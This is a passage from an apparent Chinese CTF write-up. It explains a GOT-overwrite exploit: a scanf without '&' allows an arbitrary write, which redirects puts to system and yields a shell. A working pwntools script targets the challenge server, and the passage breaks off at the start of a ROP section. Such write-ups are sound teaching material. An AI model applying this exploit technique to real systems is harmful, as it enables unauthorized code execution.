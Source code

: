 ​		让我们输入想要的。。。不知所云。

​		丢ida瞅瞅：

![](https://s1.ax1x.com/2020/07/20/U4woWj.png)

​		主函数有俩scanf，一个有&，一个没有。也就是说，我们第一次输入值，会被当成下一次输入的目标地址。比如说第一次输入0x08048052这个地址，那buf变量就保存了这个地址，第二次输入的时候，由于没有&，所以scanf就会把v4变量里的值当成地址，进而让用户对0x08048052地址进行输入。

​		除此之外我们还注意到，程序中运用到了system函数，而且两个scanf函数之后，发现puts("/bin/sh");的代码。这里我们只要将puts的函数地址，改写成system的函数地址，那么系统在执行puts("/bin/sh");的时候就会执行system("/bin/sh");

​		要了解如何修改函数调用地址，需要了解[got表以及got表的覆写技术](https://blog.csdn.net/mylyylmy/article/details/79954581)。这里只大致解释一下：ELF文件中，用一个表，got(全局偏移表)表，来记录整个程序用到的全局函数名(标识符)及其地址。当程序需要调用函数的时候，就去got表搜这个函数的地址。每个函数第一次被调用时，系统还会将got表重定向到plt表(过程连接表)中，使其根据函数一一对应。所以最终调用的还是plt表里的地址。

​		因此我们只要向puts的got表中写入system在plt表中的值，即可拿flag。

```python
from pwn import *
context.log_level = 'debug'
p = remote("121.41.113.245",10002)
elf = ELF("./miss_some")
puts_addr = elf.got['puts']
system_addr = elf.plt['system']
p.recvuntil(":")
p.sendline(str(puts_addr))		#因为scanf中限定的格式化字符串为“%d”，因此我们只能输入十进制数	
p.sendline(str(system_addr))	#str()会将十进制的地址转成字符串输出，和终端的输入效果相同


print str(puts_addr)
print str(puts_addr)

p.interactive()
```

![](https://s1.ax1x.com/2020/07/20/U4wHln.png)

### 0x04.ROP

​		rop老套路了。

![](https://img-blog.csdnimg.cn/20200719191002377.png)
		IDA中shift+F12

![](https://img-blog.csdnimg.cn/20200719191930322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTg4MzIyMw==,size_16,color_FFFFFF,t_70)
双击查看/bin/sh的地址

![](https://img-blog.csdnimg.cn/2020071919195647.png)
双击查看system的地址

![](https://img-blog.csdnimg.cn/20200719193036278.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTg4MzIyMw==,size_16,color_FFFFFF,t_70)
计算偏移量
